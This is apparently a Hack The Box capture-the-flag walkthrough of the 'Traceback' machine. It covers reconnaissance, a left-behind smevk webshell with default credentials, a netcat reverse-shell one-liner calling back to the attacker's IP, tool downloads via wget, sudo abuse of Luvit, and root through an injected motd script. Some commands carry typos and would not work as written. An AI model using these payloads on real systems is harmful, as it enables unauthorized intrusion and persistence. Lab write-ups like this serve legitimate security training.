

# Traceback

## A quick overview of the box


Traceback is a medium difficulty linux box with a difficulty rating of 4.4/10 at the time of writing.

In our journey to rooting the box we discover that a previous hacker has already compromised the server and in doing so has left a backdoor webshell for anyone lucky enough to discover it. From there we gain our initial user access on the server. To get to the next user we use Luvit which is a Lua interpreter as a pivot. From there we notice that there are some scripts being run as root whenever a user logs into the system. We will abuse this to gain root access on the machine.

## Recon

To recon the box we use a tool called Nmap. To do this we run the command:

```text
nmap -sC -sV 10.10.10.181
```

| Command | Explanation |
| :---: | :---: |
| -sC | equivalent to --script=default |
| -sV | Probe open ports to determine service/version info |
| 10.10.10.181 | The IP address of the box to be scanned |

From this we can see that the above command used a tool called nmap to scan a IP address to try and determine any services being run and their versions and trying any default scripts that the tool knows against them.


### Nmap Output:

Based on the Apache and OpenSSH versions shown, it would seem likely that the OS being run is an Ubuntu 18.04 bionic.

## Website - Port 80

upon navigating to the webserver http:/10.10.10.181:80 we are greeted with this page.


From here it is generally a good idea to look at the webpages source code so as to give ourselves a better idea as to what is going on. Quite often we can find credentials or hints hidden away in some of the top layer of pages on a website in challenges like this.


And so when we look at the source of the page we can see a html comment just below the message left by Xh4H.

At this stage we want to run a directory busting search to look for interesting and all files that might be on the server. To do this we use a tool called gobuster.

```text
gobuster dir -u http://10.10.10.181:80 -w /usr/share/wordlists/dirbuster/directory-list2.3-medium.txt
```

| Command | Explanation |
| :--- | :--- |
| gobuster | runs the tool called gobuster |
| dir | uses directory/file bruteforcing mode |
| -u | sets the target url |
| -w | sets the path to the word list to be used |

This search did not return any useful results but it was still good to run nonetheless.

While this was running I went and googled the html comment we found earlier.


Upon navigating ourselves into the GitHub repository we can see that it contains a list of common webshells. From here I created a wordlist containing all the names of the webshells listed in this repo and some others into a file called webshell.txt.


From here we can now re-run our gobuster scan but this time we can use our webshell word list to specifically search for the more popular webshells in the hope that we find the webshell left behind by Xh4H.

```text
gobuster dir -u http://10.10.10.181:80 -w /root/htb/traceback/webshell.txt
```

Quite quickly gobuster finds us a hit.


it would seem that the shell left for us to find was a smevk webshell.

## Getting a shell as Webadmin

visiting the path provided \([http://10.10.10.181:80/smevk.php\](http://10.10.10.181:80/smevk.php\)\) gets us a login screen.


Generally the first thing to do when having found a login portal is to try default login credentials. And upon looking at the source code for the smevk webshell github we found are default credentials to log in with. \([https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)\)


And so using `admin:admin` to log into the web shell we are then greeted with a rather complicated looking webshell to server interface.


Now upon closer inspection this page tells us a LOT about the sever. For example it tells us that we are currently interacting with the server as webadmin. What software the server is running \(Apache 2.4.29\) as well as what software is installed and accessible by us. Those being php, perl, tar, gzip, bzip2, nc, and wget.

From here there are several ways to gain shell access. But I went for a relatively simple reverse bash shell. To do this I started a netcat listener on my kali using the command:

```text
nc -lvnp 4445
```

| Command | Explanation |
| :--- | :--- |
| nc | runs the netcat tool |
| -l | listen mode, for inbound connections |
| -v | verbose, this means that it will display more information about incoming connections |
| -n | numeric-only IP addresses can connect, no DNS |
| -p | local port number to listen on |
| 4445 | the port number to listen on |

To connect to our netcat listener on our machine we create and execute the following payload through the payload interface

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4445 > /tmp/f
```

You can find the same code used here and many more useful short code snippets for gaining reverse shell here: [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

All that needs changing in the ip address and port to match our own on the HTB network and the port set in the netcat port above.

And we are in. We are webadmin on the server. From here we need to escalate our privileges until we become root.


## Upgrading our Shell

The shell that we have gained so far isn't the best we could make it. I would much rather have a tty shell and tab auto complete to make our QoL a lot better. To do this we simply type into our shell:

```text
python3 -c "import pty;pty.spawn('bin/bash')"
```

from here we press ctrl + z. And then type stty raw -echo into our command line and then press fg.

What this is doing is using the fact that we have python installed on the victim to spawn a more interactive shell. By pressing ctrl + z we background our current connection to the shell. The "stty raw -echo" part allows us to pipe our type input into the shell. And from there the "fg" which you will not be able to see yourself type into the command line after typing "stty war -echo" brings back the shell into the foreground. From here we now have tab auto complete and colour sensitive output.

## User PrivEsc

Now that we have a basic user shell on the machine it is time to do some basic enumeration. My usual first few commands that I always eneter on a linux machine are as follows:

* [ ] whoami
* [ ] hostname
* [ ] history
* [ ] uname -a
* [ ] sudo -l
* [ ] sudo su
* [ ] netstat -ano

These commands allow me to get a general basic understanding of what the user I am connected as has access to and is able to do on the victim machine.

In this case we are connected as webadmin and therefore do not have many rights.

using ls to look at the current folder we see that there is not much in our current folder apart from a picture, the index page code and the webshell we used to connect.

My next step is usually to go look at the home folder of the current user. Going there we see that there are two users in the /home directory.


Moving into webadmin, we see that someone has left a note here. Reading it, it says

This seems interesting so we will come back to this later.


But first we need to make our shell more stable. When looking at hidden files using the linux command  `ls -la` we see that we can write to the .ssh file. This means that we can add ourselves to the list of authroized connections that are able to connect as webadmin to this machine through the ssh service we found to be open during our initial enumeration.


To do this we generate a fresh public key on our machine to give to the victim machine.

```text
ssh-keygen
```

Copy the output of this command over into ~/.ssh/authorized\_keys file and into a local file that you can access.

From here we can now ssh into the machine using the ssh key.

```text
ssh -i id_rsa webadmin@10.10.10.181
```

This command connects us using ssh to the machine as the user webadmin at the ip address of 10.10.10.181 using the public key copied from the above command into a local file called id\_rsa.

Now that we have a more stable shell we can go back to looking how to privEsc. Looking at the history command output


We can see that sudo is used to run `/home/sysadmin/luvit` as `sysadmin`.

### Sudo -l

By using the command `sudo -l` we can enumerate out current users sudo permissions


From this commands output we can see that it is possible to run `/home/sysadmin/luvit` without any password being required.

### GTFO bins

GTFO bins is a great website that has a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

To privEsc here we will be using the lua section of GTFO bins


Using what we can see from gtfo bins there is two ways we can do this. The first is to make a file with `os.execute('/bin/bash')` command in it and execute it using Luvit as was shown in the history output. Or we can use Luvit repl to just directly execute it.


This is possible because of the sudo permissions set that we saw before. That webadmin has permission to run luvvit as sysadmin without a password. This is why we can then run a shell as sysadmin.

### Shell as sysadmin

Moving into the sysadmin directory we can see the user.txt flag.


As the .ssh directory is owned by root we are unable to replicate the way we gained access to webadmin using ssh to connect. Look like we will have to find another way to privEsc.

## PrivEsc to Root

Specifically for PrivEsc I have a transfer folder on my kali machine full of usefull tools that I might want to transfer over to a target machine to help me to privEsc it quicker. Here I will transfer over two files, linpeas and pspy.

This is done by creating a python server on our kali machine using the command

```text
python -m SimpleHTTPServer 80
```

To download the files onto the target machine we use

```text
wget http://10.10.14.21:80/linpeas.sh
```

where the ip address is our own ip address on the HTB network, the port number is the port number used from the python command above and then the name of the file.

When running both tools we see a file updating every minute, which looked like a Cron job restoring /etc/update-motd.d/.



Looking at the pspy output it would seem that the file is actually being updated every 30 seconds. This to me seams like a good way to priv esc if the settings on them are set up incorrectly.

So navigating to the /etc/update-motd.d folder, we see this as our output for `ls -la`


we see that the scripts in this folder are executed as root. Which with a bit of googling we can see that these files are executed during user login.

looking inside of the files we see that 00-header is the code that makes the banner appear when we logged in with ssh.


By appending the below code to the file we are able to print the root flag for the box. But what would we do if the key wasn't in the place that we would have of expected it to be. Well, thet would require us to use this exploit to gain root shell.

```text
cat /root/root.txt
```

The way of doing this that I used was to copy over the webadmins authorized\_keys to the root's one. Then we can ssh in as root using the same key. To do this on the target machine we do:

```text
echo 'cat /home/webadmin/.ssh/authroized_keys >> /root.ssh/authorized_keys' >> 00-header
```


Now we need to re-connect using ssh to webadmin to trigger the header script to copy the key over to root.

Once that is done, exit back out and ssh in as root using the same file as before. And you are root!

